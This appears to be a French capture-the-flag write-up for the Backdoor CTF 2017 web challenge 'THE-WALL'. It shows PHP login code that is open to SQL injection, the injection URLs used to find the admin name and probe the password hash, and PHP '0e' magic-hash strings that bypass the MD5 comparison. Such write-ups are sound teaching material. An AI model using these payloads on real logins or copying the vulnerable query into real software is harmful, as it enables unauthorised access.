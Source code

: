 Backdoor CTF 2017: THE-WALL
-------

**Catégorie**: Web **Points**: 100 **Description**:

> Night king needs the secret flag to destroy the wall. Help night king get flag from Lord Commander so that army of dead can kill the living
http://163.172.176.29/WALL


Write up
-------

Dans un premier temps en cliquant sur le lien on arrive sur la page http://163.172.176.29/WALL/login.html

On va commencer par regarder le code source de la page voir s'il n'y a pas d'indices:

```html
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <form action="index.php" method="POST">
    Username:<input type="text" name="life" /><br>
    Password:<input type="password" name="soul" /><br>
    <input type="submit">
    </form>
    <br>
    Here is the source of <a href="source.php">index.php</a>
    </body>
    </html>
```

On sait maintenant qu'il y a "life" et "soul" envoyés en POST sur la page "index.php".

Maintenant on va regarder la source de la page "index.php" en cliquant sur le lien hypertexte:

```php
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <?php
    include 'flag.php';
    if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
        $username = $_REQUEST['life'];
        $password = $_REQUEST['soul'];
        if(!(is_string($username)&&is_string($password))){
            header( "refresh:1;url=login.html");
            die("You are not allowed south of wall");
        }
        $password = md5($password);
        include 'connection.php';
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
        $message = "";
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
        $users = $result->fetchArray(SQLITE3_ASSOC);
        if($users) {
            if($password == $users['password']){
                if($users['role']=="admin"){
                    echo "Here is your flag: $flag";
                }elseif($users['role']=="normal"){
                    $message = "Welcome, ".$users['users']."</br>";
                    $message.= "Unfortunately, only Lord Commander can access flag";
                }else{
                    $message = "What did you do?";
                }
            }
            else{
                $message = "Wrong identity for : ".$users['username'];
            }
        }
        else{
            $message = "No such person exists"."<br>";
        }
        echo $message;
    }else{
        header( "refresh:1;url=login.html");
        die("Only living can cross The Wall");
    }
    ?>
    </body>
    </html>
```

De cette façon on apprend plusieurs choses:

* Les deux champs ne peuvent pas être vides, et on peut envoyer notre "username" et notre "password" en GET car on a "$_REQUEST"
    ```php
        if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
            $username = $_REQUEST['life'];
            $password = $_REQUEST['soul'];
    ```
* Le hash du mot de passe est md5 (sa taille est donc de 32 caractères)
    ```php
        $password = md5($password);
    ```
* On sait que la table est "users" et que les colonnes sont: id, username, password, role
    ```php
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    ```
* On ne pourra pas faire d'union
    ```php
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
    ```
* Il y a une injection sql sur username
    ```php
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
    ```

On va pouvoir commencer notre blind SQLI en récupérant dans un premier temps le pseudo de l'administrateur:

```
   http://163.172.176.29/WALL/index.php?soul=tt&life=' OR role='admin' -- '
```

Bingo ! On obtient le nom d'utilisateur qui est "LordCommander" (comme c'est bizarre).

Maintenant on va commencer par récupérer le mot de passe à la main (comme on est noob) avec des valeurs numérique (on commence par zéro):

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0%' -- '
```

On a un résultat positif et si le mot de passe commence par 0e on aurait un bug sur du type juggling et c'est logique avec:

```php
    $password = md5($password);
```

On test donc avec "0e":

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0e%' -- '
```

C'est encore gagné ! On a beaucoup de chance aujourd'hui !
On va maintenant pouvoir tester avec un mot de passe qui en md5 commence par "0e" et qui retourne vrai pour:

```php
    if($password == $users['password'])
```

Voici des mots qui fonctionnent:

```
    240610708
    QNKCDZO
    aabg7XSs
```

On envoi donc notre combinaison nom d'utilisateur et mot de passe:

```php
    http://163.172.176.29/WALL/index.php?soul=QNKCDZO&life=LordCommander
```
Bim ! On a le flag qui s'affiche et on gagne 100 points.

![Snow](images/snow.jpeg)
